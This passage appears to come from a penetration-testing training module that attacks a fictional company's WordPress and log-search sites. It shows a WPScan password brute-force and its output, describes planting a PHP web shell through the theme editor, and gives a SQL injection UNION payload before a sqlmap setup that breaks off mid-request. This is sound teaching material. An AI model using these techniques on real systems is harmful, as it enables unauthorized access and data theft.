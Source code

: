 <p>Let's try to brute-force one of the account passwords using <a href="https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/darkweb2017-top100.txt">this</a> wordlist from the <code>SecLists</code> GitHub repo. Using <code>WPScan</code> again, we get a hit for the <code>ilfreightwp</code> account.</p>
<pre><code class="language-shell-session">[!bash!]$ wpscan --url http://ir.inlanefreight.local -P passwords.txt -U ilfreightwp

&lt;SNIP&gt;

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - ilfreightwp / password1                                                                              
Trying ilfreightwp / 123123 Time: 00:00:00 &lt;===                                &gt; (10 / 109)  9.17%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: ilfreightwp, Password: password1

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Mon Jun 20 23:31:34 2022
[+] Requests Done: 186
[+] Cached Requests: 7
[+] Data Sent: 54.2 KB
[+] Data Received: 253.754 KB
[+] Memory used: 241.836 MB
[+] Elapsed time: 00:00:16
</code></pre>
<p>From here, we can browse to <code>http://ir.inlanefreight.local/wp-login.php</code> and log in using the credentials <code>ilfreightwp:password1</code>. Once logged in, we'll be directed to <code>http://ir.inlanefreight.local/wp-admin/</code> where we can browse to <code>http://ir.inlanefreight.local/wp-admin/theme-editor.php?file=404.php&amp;theme=twentytwenty</code> to edit the 404.php file for the inactive theme <code>Twenty Twenty</code> and add in a PHP web shell to get remote code execution. After editing this page and achieving code execution following the steps in the <a href="https://academy.hackthebox.com/module/113/section/1208">Attacking WordPress</a> section of the <code>Attacking Common Applications</code> module, we can record yet another finding for <code>Weak WordPress Admin Credentials</code> and recommend that our client implement several hardening measures if they plan to leave this WordPress site exposed externally.</p>
<hr/>
<h2>status.inlanefreight.local</h2>
<p>This site looks like another forgotten one that shouldn't be exposed to the internet. It seems like it's some sort of internal application to search through logs. Entering a single quote (<code>'</code>) throws a MySQL error message which indicates the presence of a SQL injection vulnerability: <code>You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '%'' at line 1</code>. We can exploit this manually using a payload such as:</p>
<pre><code class="language-sql">' union select null, database(), user(), @@version -- //
</code></pre>
<p>This is an example of a <a href="https://academy.hackthebox.com/module/33/section/806">SQL Injection UNION attack</a>.</p>
<p>We can also use sqlmap to exploit this also. First, capture the POST request using Burp, save it to a file, and mark the <code>searchitem</code> parameter with a <code>*</code> so sqlmap knows where to inject.</p>
<pre><code class="language-shell-session">POST / HTTP/1.1
Host: status.inlanefreight.local
Content-Length: 14
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://status.inlanefreight.local
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9